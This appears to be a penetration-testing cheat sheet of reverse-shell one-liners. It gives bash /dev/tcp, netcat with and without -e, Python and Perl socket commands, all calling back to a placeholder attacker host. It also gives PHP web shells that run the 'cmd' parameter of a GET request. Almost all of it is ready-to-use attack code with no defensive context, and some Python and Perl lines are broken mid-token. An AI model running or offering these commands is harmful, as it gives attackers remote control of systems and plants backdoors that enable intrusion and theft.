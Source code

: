 # Reverse Shell
## Bash

```shell
## Bash shell
bash -i >& /dev/tcp/YOUR_HOST/443 0>&1
```

## Netcat without -e ag

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
```

## Netcat Linux

```shell
nc -e /bin/sh 10.10.10.10 443
```

## Netcat Windows

```shell
nc -e cmd.exe 10.10.10.10 4443
```

## Python

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.conn
ect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Perl
```shell
perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tc
p"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# CMD SHell

## PHP

PHP command injection from GET Request
```php
#cmdshell
<?php echo system($_GET["cmd"]);?>

#Alternative
<?php echo shell_exec($_GET["cmd"]);?>
```